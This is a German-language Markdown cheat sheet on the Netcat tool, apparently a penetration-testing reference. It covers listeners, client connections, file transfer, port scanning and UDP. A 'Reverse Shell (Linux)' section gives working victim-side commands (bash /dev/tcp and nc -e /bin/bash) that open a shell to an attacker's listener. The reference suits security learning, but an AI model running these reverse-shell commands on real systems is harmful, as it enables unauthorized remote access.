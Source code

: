 # Netcat (nc)

**Netcat** (kurz: `nc`) ist ein vielseitiges Netzwerk-Tool für Unix- und Windows-Systeme. Es ermöglicht das Lesen und Schreiben von Daten über Netzwerkverbindungen mittels TCP oder UDP. Typische Anwendungsbereiche sind Debugging, Portscans, Dateiübertragungen, Shell-Verbindungen (Reverse/Bind Shells), einfache Server/Client-Kommunikation und Portweiterleitungen.



## Grundfunktionen

| Funktion               | Beschreibung                                                          |
| ---------------------- | --------------------------------------------------------------------- |
| Portscan               | TCP-Port-Scan eines Zielsystems                                       |
| Dateiübertragung       | Senden und Empfangen von Dateien über eine Netzwerkverbindung         |
| Chat-Kommunikation     | Einfache Client-Server-Kommunikation                                  |
| Reverse Shell          | Aufbau einer Verbindung vom Opfer zurück zum Angreifer                |
| Portweiterleitung      | Weiterleitung von TCP/UDP-Verbindungen                                |
| Backdoor-Kommunikation | Nutzung in Penetrationstests für Shells oder persistente Verbindungen |



## Netcat Cheatsheet

### **Listener (Server-Modus)**

| Befehl            | Beschreibung                             |
| ----------------- | ---------------------------------------- |
| `nc -lvnp <port>` | Startet einen Listener auf Port `<port>` |
| `-l`              | Listen-Modus                             |
| `-v`              | Ausführliche (verbose) Ausgabe           |
| `-n`              | Verzicht auf DNS-Auflösung (nur IPs)     |
| `-p <port>`       | Gibt den zu verwendenden Port an         |

Beispiel:

```
nc -lvnp 9001
```



### **Verbindung (Client-Modus)**

| Befehl           | Beschreibung                        |
| ---------------- | ----------------------------------- |
| `nc <ip> <port>` | Verbindet sich mit Ziel-IP und Port |
| `-v`             | Ausführliche Ausgabe                |
| `-n`             | Keine DNS-Auflösung                 |

Beispiel:

```
nc 10.10.10.10 9001
```



### **Dateiübertragung**

| Sender (Client)             | Empfänger (Listener)         |
| --------------------------- | ---------------------------- |
| `nc <ip> <port> < file.txt` | `nc -lvnp <port> > file.txt` |



### **Reverse Shell (Linux)**

| Ziel (Listener) | Opfer (Shell-Befehl)                 |
| --------------- | ------------------------------------ |
| `nc -lvnp 4444` | `bash -i >& /dev/tcp/<ip>/4444 0>&1` |
|                 | oder: `nc <ip> 4444 -e /bin/bash`    |

Hinweis: Die `-e` Option ist in vielen modernen Netcat-Versionen deaktiviert oder nicht vorhanden.



### **Portscan mit Netcat**

```
nc -vnz <ip> 20-80
```

| Option | Beschreibung                           |
| ------ | -------------------------------------- |
| `-v`   | Ausführliche Ausgabe                   |
| `-n`   | Keine DNS-Auflösung                    |
| `-z`   | Zero-I/O-Mode (nur Verbindungsprüfung) |



### **UDP-Verbindungen**

```
nc -u <ip> <port>
```

| Option | Beschreibung                  |
| ------ | ----------------------------- |
| `-u`   | Verwende UDP anstelle von TCP |
